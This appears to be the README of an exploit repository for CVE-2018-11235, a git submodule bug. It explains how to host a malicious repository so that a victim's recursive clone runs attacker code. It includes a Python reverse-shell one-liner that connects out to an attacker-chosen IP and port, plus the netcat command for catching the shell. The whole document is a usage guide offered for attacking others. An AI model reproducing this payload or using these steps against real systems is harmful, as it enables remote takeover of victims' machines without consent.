 Exploit for CVE-2018-11235 Usage
==============================

CVE-2018-11235, dubbed clone and pwn here, creates a malicious git repo that exploits a bug in git. When the repo is cloned using the
--recurse-submodules flag, arbitrary code is executed on git client versions In Git before 2.13.7, 2.14.x before 2.14.4, 2.15.x before
2.15.2, 2.16.x before 2.16.4, and 2.17.x before 2.17.1.

To use this module simply put it on a server with direct internet access (e.g. AWS, digital ocean) and pop open `evil.sh`. It will look
something like the following:

```
#!/bin/sh

$EXTERN_IP=127.0.0.1
$EXTERN_PORT=8080

#reverse shell to IP EXTERN_IP
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$EXTERN_IP",$EXTERN_PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Set EXTERN_IP and EXTERN_PORT to the IP (external) and port you'd like to receive your reverse shell on. A reverse shell can be received with something like:

`nc -l <EXTERN_IP> EXTERN_PORT` e.g. `nc -l 193.23.23.32 8080`

Once the user has run the command `git clone --recurse-submodules git://<your ip>/repo dest_dir` you will receive a reverse shell.

If you're having trouble running multiple times check the following:

- Run ./clean.sh, note this will delete all data in /tmp
- check the processes with `ps aux | grep git` to ensure you aren't already running gitdaemon. Kill any gitdaemon processes.

Acknowledgements
----------------

Code derived from [@peff](https://github.com/peff)'s [git patch][] (look for
the `t/t7415-submodule-names.sh` test file).

As such, this repository is published under the GNU General Public License
version 2.

Additional fix for older versions of git courtesy of
[@atorralba](https://github.com/atorralba)
([details in this post](https://atorralba.github.io/CVE-2018-11235/)).

[git patch]: https://github.com/git/git/commit/0383bbb9015898cbc79abd7b64316484d7713b44

This script adapted from https://github.com/Rogdham/CVE-2018-11235, much love and credit

=======
# clone_and_pwn
Exploits CVE-2018-11235

